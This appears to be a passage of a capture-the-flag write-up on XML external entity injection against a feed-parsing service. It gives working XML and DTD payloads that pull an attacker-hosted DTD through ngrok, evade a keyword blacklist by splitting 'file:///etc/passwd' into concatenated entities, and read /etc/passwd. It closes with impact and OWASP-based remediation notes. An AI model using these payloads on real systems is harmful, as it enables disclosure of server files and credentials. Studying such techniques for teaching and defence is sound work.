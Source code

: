 - Since the XML pass filters bad words from a blacklist of words including `file://`, `etc`, `passwd`, `flag`, We can use concatenation our strings to bypass this.
- Using the python library `SimpleHTTPServer` we can set up a local web server to host our payloads. `python -m SimpleHTTPServer <port_number>`
- We can then use [ngrok](https://ngrok.com/) to expose our local server to the public. `./ngrok http <port_number>`
- We then pass the URL provided by [ngrok](https://ngrok.com/) into v3.feedifier.
![](https://i.imgur.com/EZLhlrV.png)
*v3 feedifier input*
![](https://i.imgur.com/LD2wCNj.png)
*v3 exposing /etc/passwd*
```xml=
<!-- v3index.html -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
  <!ELEMENT foo ANY >
  <!ENTITY % xxe SYSTEM "http://3cbf1917c733.ngrok.io/v3ParamInjection.dtd">
  %xxe;
]>
<rss version="2.0">
  <channel>
      <title>a1</title>
      <link>a1</link>
      <description>a1</description>
      <item>
      <title>a</title>
      <link>a</link>
      <description>&payload;</description>
      </item>
</channel>
</rss>
```
```xml=
<!-- v3ParamInjection.dtd -->
<!ENTITY % s1 "file">
<!ENTITY % s2 ":///et">
<!ENTITY % s3 "c/pass">
<!ENTITY % s4 "wd">
<!ENTITY % combined "<!ENTITY payload SYSTEM '%s1;%s2;%s3;%s4;'>">
%combined;
```

### Impact 
- This attack may lead to the disclosure of confidential data, denial of service, server side request forgery, port scanning from the perspective of the machine where the parser is located, compromising the integrity and stability of the domain and possessing wider system impacts.
### Remediation
- Almost all XXE is due to a XML parsing library supporting dangerous XML features. The easiest way to prevent this type of attack is to disable resolution of external ties and die support for XInclude. 
- For more information read [OWASP's XML External Entity Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html).
